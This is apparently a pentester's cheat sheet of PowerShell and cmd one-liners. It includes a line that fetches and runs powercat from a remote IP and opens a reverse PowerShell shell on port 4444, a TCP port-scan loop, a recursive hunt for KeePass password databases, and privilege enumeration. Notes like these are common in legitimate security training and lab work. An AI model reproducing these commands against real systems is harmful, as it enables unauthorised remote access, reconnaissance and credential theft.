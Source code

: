 
determine if command line is PowerShell or cmd:

```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

download files from remote server with PowerShell:

```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
```

`Test-NetConnection -Port <port> <target_IP>` - Power shell command that can be used to run a port scan from a windows machine. This command will check if the target responds too ICMP and whether a specified TCP port on the target is open. The result of `TcpTestSucceeded` indicated whether the port is open or not.

`1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).connect("TARGET_IP", $_)) "TCP port $_ is open"} 2>$null` - This is a power shell one-liner that will scan the first 1024 ports of our target specified.

`Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue` find all .kdbx files on the system (password databases used by password managers)

`move C:\xampp\mysql\bin\mysqld.exe mysqld.exe` - move a file using PowerShell

`whoami /priv` list the current users privileges (state is for the current command whoami, we only need to see the presence of the privilege)

`shutdown /r /t 0` - reboot the machine in zero seconds if we need to reboot



